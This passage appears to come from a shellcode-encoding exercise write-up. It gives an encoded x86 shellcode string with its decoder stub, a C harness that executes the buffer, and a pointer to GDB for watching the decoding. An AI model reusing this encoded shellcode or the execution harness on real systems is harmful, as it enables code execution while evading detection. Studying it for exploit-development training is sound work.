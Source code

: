 
Assembling, Linking and Dumping shellcode.
![Assemble Link Dump Shellcode](/assets/asn-4-asm-link-dump.PNG)

Insert the shellcode in the c template file.
```c
#include<stdio.h>
#include<string.h>
unsigned char code[] = \
"\xeb\x40\x5e\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x56\x5f\xb1\x18\x8a\x1e\x8a\x46\x01\x30\x5e\x01\x88\xc3\x46\xe2\xf5\x89\xfe\xb1\x03\x56\x8a\x1e\xb2\x18\x8d\x3e\x8a\x46\x01\x88\x07\x46\xfe\xca\x75\xf4\x88\x1e\x5e\xe2\xea\xb1\x19\xf6\x16\x80\x36\xaa\x46\xe2\xf8\xeb\x05\xe8\xbb\xff\xff\xff\x5e\xc6\x13\x77\xe2\xe7\xda\xa0\xda\xfc\xc1\xfc\x86\xb1\x8d\xb6\x6a\xdc\xd9\x05\xb2\xb4\x68\xdc\x39";

main()
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```
Compile the shellcode.c file and Let us analyze the execution with the help of GDB and observe the decoding process.
![GDB Disassembly Breakpoints1](/assets/asn-4-disas-1.PNG)